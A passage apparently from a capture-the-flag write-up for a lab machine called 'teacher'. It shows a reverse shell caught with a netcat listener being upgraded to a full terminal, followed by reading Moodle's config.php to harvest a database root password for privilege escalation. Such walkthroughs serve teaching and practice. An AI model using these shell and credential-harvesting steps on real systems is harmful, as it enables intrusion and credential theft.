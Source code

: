 

    $ python -c 'import pty;pty.spawn("bash")'
    www-data@teacher:/var/www.md/moodle/question$ 
    [1]+  Stopped                 rlwrap nc -lnvp 443
    root@kali# stty raw -echo
    root@kali# rlwrap nc -lnvp 443
    www-data@teacher:/var/www.md/moodle/question$ reset
    reset
    reset: unknown terminal type unknown
    Terminal type? screen
    www-data@teacher:/var/www$ export TERM=screen



Now I've got a shell with tab completion and arrow keys.

## Privesc: www-data -\> giovanni

### Find Database Password

In the website code I'll find the database info for Moodle:



    www-data@teacher:/var/www.md/moodle$ cat config.php
    <?php  // Moodle configuration file

    unset($CFG);
    global $CFG;
    $CFG = new stdClass();

    $CFG->dbtype    = 'mariadb';
    $CFG->dblibrary = 'native';
    $CFG->dbhost    = 'localhost';
    $CFG->dbname    = 'moodle';
    $CFG->dbuser    = 'root';
    $CFG->dbpass    = 'Welkom1!';
    $CFG->prefix    = 'mdl_';
    $CFG->dboptions = array (
      'dbpersist' => 0,
      'dbport' => 3306,
      'dbsocket' => '',
      'dbcollation' => 'utf8mb4_unicode_ci',
    );

    $CFG->wwwroot   = 'http://10.10.10.153/moodle';
    $CFG->dataroot  = '/var/www/moodledata';
    $CFG->admin     = 'admin';

    $CFG->directorypermissions = 0777;

    require_once(__DIR__ . '/lib/setup.php');

    // There is no php closing tag in this file,
    // it is intentional because it prevents trailing whitespace problems!
